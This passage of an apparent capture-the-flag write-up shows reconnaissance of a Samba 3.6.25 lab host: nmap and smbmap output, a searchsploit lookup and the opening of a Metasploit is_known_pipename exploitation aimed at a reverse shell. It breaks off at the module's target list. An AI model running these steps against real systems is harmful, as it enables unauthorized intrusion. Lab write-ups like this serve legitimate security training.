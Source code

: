 ```
|   OS: Unix (Samba 3.6.25)
|   Computer name: lazy
|   NetBIOS computer name: 
|   Domain name: 
|   FQDN: lazy
|_  System time: 2020-07-12T11:24:04-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.00 seconds
```

By searching for the version of SMB in searchsploit, we can see it is vulnerable to a "is_known_pipename()" exploit:
```
searchsploit samba 3.6.25

---------------------------------------------------- ---------------------------------
 Exploit Title                                      |  Path
---------------------------------------------------- ---------------------------------
Samba 3.5.0 < 4.4.14/4.5.10/4.6.4 - 'is_known_pipen | linux/remote/42084.rb
---------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### SMB
In smbmap, we are able to confirm that we have write access to somewhere on the smb server, and as such the exploit should work.
```
smbmap -H 172.31.1.1
                                                                                                    
[+] IP: 172.31.1.1:445	Name: 172.31.1.1          	Status: Guest session   	
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	Public                                            	READ, WRITE	
	IPC$                                              	NO ACCESS	IPC Service (lazy server (Samba, Ubuntu))
```
Using the metasploit module `linux/samba/is_known_pipename` we can spawn a reverse shell. This didn't work for me with the preset target, and because of this, I had to first set the target
```
msf5 exploit(linux/samba/is_known_pipename) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Automatic (Interact)
   1   Automatic (Command)
   2   Linux x86
   3   Linux x86_64
   4   Linux ARM (LE)
   5   Linux ARM64
   6   Linux MIPS
   7   Linux MIPSLE
   8   Linux MIPS64
   9   Linux MIPS64LE
   10  Linux PPC
```